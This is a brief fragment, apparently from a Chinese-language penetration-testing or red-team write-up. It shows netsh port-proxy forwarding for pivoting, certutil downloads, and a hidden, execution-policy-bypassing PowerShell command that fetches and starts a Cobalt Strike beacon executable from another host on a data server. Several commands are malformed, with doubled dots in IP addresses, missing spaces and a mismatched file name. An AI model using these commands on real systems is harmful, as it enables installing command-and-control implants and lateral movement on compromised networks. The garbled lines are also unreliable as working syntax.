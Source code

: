 [![](assets/1698990322-24017e3412a7793a8f0cbbd9ee6f55c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102173155-a9c386a4-7962-1.png)

```bash
netsh interface portproxy add v4tov4 listenport=4455 connectaddress=1.xxx.xxx.40 connectport=4455
```

```bash
shell netsh interface portproxy add v4tov4 listenport=80connectaddress=192..168.22.152:connectport=80
certutil -urlcache -split -f http://192..168.22.152:/beacon1.exe  beacon1.exe
certutil -urlcache -split -f http://192.168.22.152/beacon1.exe  beacon1.exe
powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://192.168.22.152/beacon1.exe','beacon1.exe');start-process beacon.exe
```

使用 cs 生成 beacon.exe，然后下载到 data 主机上，执行 exe 文件。
